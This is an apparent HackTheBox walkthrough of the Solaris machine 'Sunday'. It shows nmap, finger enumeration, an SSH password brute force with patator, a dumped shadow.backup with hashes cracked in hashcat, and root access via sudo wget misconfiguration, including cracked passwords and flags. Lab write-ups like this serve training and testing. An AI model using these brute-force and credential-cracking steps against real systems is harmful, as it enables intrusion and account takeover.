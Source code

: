 ```yaml
---
title: HackTheBox - Sunday
date: 2021-01-04 12:13:03 +0100
categories: [Hackthebox walkthroughs, Linux, Easy]
tags: [htb-linux-easy, Solaris, SunOS, finger, guessing, patator, hashcat, sudo misconfiguration, GTFOBins, wget, writeup, oscp-prep]
image: https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/Sunday.png
---
```


## Foothold

### `nmap` scan

```
$ nmap -min-rate 5000 --max-retries 1 -sV -sC -p- -oN Sunday-full-port-scan.txt 10.10.10.76
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-04 09:27 CET
Warning: 10.10.10.76 giving up on port because retransmission cap hit (1).
Stats: 0:00:06 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 20.79% done; ETC: 09:27 (0:00:19 remaining)
Nmap scan report for 10.10.10.76
Host is up (0.11s latency).
Not shown: 64580 filtered ports, 950 closed ports
PORT      STATE SERVICE VERSION
79/tcp    open  finger  Sun Solaris fingerd
|_finger: No one logged on\x0D
111/tcp   open  rpcbind 2-4 (RPC #100000)
22022/tcp open  ssh     SunSSH 1.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 d2:e5:cb:bd:33:c7:01:31:0b:3c:63:d9:82:d9:f1:4e (DSA)
|_  1024 e4:2c:80:62:cf:15:17:79:ff:72:9d:df:8b:a6:c9:ac (RSA)
41462/tcp open  unknown
49906/tcp open  unknown
Service Info: OS: Solaris; CPE: cpe:/o:sun:sunos
```

### finger (port 79)

We can use pentestmonkey's script [finger-user-enum.pl](https://raw.githubusercontent.com/pentestmonkey/finger-user-enum/master/finger-user-enum.pl) to do our enumeration:

![finger users top usernames](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/finger-users.png)

Okay, we know there iis at least 5 users:

1. **root**
2. **admin**
3. **adm**
4. **mysql**
5. **user**

While figuring out what to do next on [Hacktricks - pentesting finger](https://book.hacktricks.xyz/pentesting/pentesting-finger), I ran `finger-user-enum.pl` a second time with a bigger wordlist:

> We could also use **metasploit** with `use auxiliary/scanner/finger/finger_users`.

```bash
$ ./finger-user-enum.pl -U /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames-dup.txt -t $TARGET
```

![finger users more usernames](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/finger-users-2.png)

From the screenshot above, we can notice tree things:

1. We got more valid usernames
2. The user `sunny` seems to have been connected from a remote IP address `10.10.10.4`
3. The user `root` seems to have been connected from the local machine `sunday`

### SSH (port 22022)

#### Bruteforce old SSH with `patator`

Probably due to an exchange algorithm error, we'll use `patator` instead of using `hydra` to bruteforce ssh.

```bash
$ patator ssh_login host=$TARGET port=22022 user=sunny password=FILE0 0=/usr/share/wordlists/seclists/Passwords/probable-v2-top1575.txt persistent=0 -x ignore:mesg='Authentication failed
.' --timeout=5
```

Valid credentials found/guessed:
- **username**: `sunny`
- **password**: `sunday`

## User (sunny)

```bash
$ ssh -p 22022 sunny@$TARGET
Unable to negotiate with 10.10.10.76 port 22022: no matching key exchange method found. Their offer: gss-group1-sha1-toWM5Slw5Ew8Mqkay+al2g==,diffie-hellman-group-exchange-sha1,diffie-hellman-group1-sha1

$ ssh -oKexAlgorithms=+diffie-hellman-group1-sha1 -p 22022 sunny@$TARGET
The authenticity of host '[10.10.10.76]:22022 ([10.10.10.76]:22022)' can't be established.
RSA key fingerprint is SHA256:TmRO9yKIj8Rr/KJIZFXEVswWZB/hic/jAHr78xGp+YU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.10.10.76]:22022' (RSA) to the list of known hosts.
Password: 
Last login: Tue Apr 24 10:48:11 2018 from 10.10.14.4
Sun Microsystems Inc.   SunOS 5.11      snv_111b        November 2008
sunny@sunday:~$ 
```

There is another user called `sammy` who has a home directory:

```bash
sunny@sunday:~$ cd ..
sunny@sunday:/export/home$ ls -la
total 8
drwxr-xr-x  4 root  root   4 2018-04-15 20:18 .
drwxr-xr-x  3 root  root   3 2018-04-15 19:44 ..
drwxr-xr-x 18 sammy staff 27 2020-07-31 18:00 sammy
drwxr-xr-x 18 sunny other 30 2018-04-15 20:52 sunny
```

Let's run `sudo -l`:

```bash
sunny@sunday:/tmp$ sudo -l
User sunny may run the following commands on this host:
    (root) NOPASSWD: /root/troll
```

Since we can only execute it, I will not spend time on it _(for the moment)_.

On `/`, there is `backup` directory which we have access to:

```bash
sunny@sunday:/tmp$ cd /backup
sunny@sunday:/backup$ ls -la
total 5
drwxr-xr-x  2 root root   4 2018-04-15 20:44 .
drwxr-xr-x 26 root root  27 2020-07-31 17:59 ..
-r-x--x--x  1 root root  53 2018-04-24 10:35 agent22.backup
-rw-r--r--  1 root root 319 2018-04-15 20:44 shadow.backup
sunny@sunday:/backup$ cat shadow.backup
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636:::::
```

> `$5$` is for SHA-256 hash.

###  "Cracking" sammy's password with `hashcat`

According to the manpage of `hashcat`, **7400** is SHA-256 mode:

![74400 sha256 unix](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/man-hashcat.png)

![hashcat](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/hashcat.png)

Sammy's password is `cooldude!`.

## User (sammy)

![sammy ssh](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/sammy-ssh.png)

- flag:

```bash
sammy@sunday:~$ cd Desktop
sammy@sunday:~/Desktop$ cat user.txt
a3d9498027ca5187ba1793943ee8a598
```

- `sudo -l`:

```bash
sammy@sunday:~/Desktop$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
sammy@sunday:~/Desktop$
```

Let's check `wget` on [GTFOBins - wget](https://gtfobins.github.io/gtfobins/wget/) to see how we can privesc:

![wget gtfobins](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/wget-gtfobins.png)

We cannot use it to privesc! 

Even if we can download a malicious file and then execute it, it will not be done as **root** but as **sammy**. This is because of the pipe  (`|`) as you can see on the image below:

![reverse shell failed](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/reverse-shell-failed.png)

However there are other things that we can probably do.

1. We can **read** every file: 

![/etc/shadow](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/etc-shadow.png)

2. We can **overwrite** the `/root/troll` binary

## Root

![root](https://amirr0r.github.io/assets/img/htb/machines/linux/easy/sunday/root.png)

- flag:

```bash
root@sunday:~# cd /root
root@sunday:/root# cat root.txt
fb40fab61d99d37536daeec0d97af9b8
```
___

## Useful links

- [pentestmokey - finger enum](https://github.com/pentestmonkey/finger-user-enum)
- [hacktricks - pentesting finger](https://book.hacktricks.xyz/pentesting/pentesting-finger)
- [Hashcat - example hashes](https://hashcat.net/wiki/doku.php?id=example_hashes)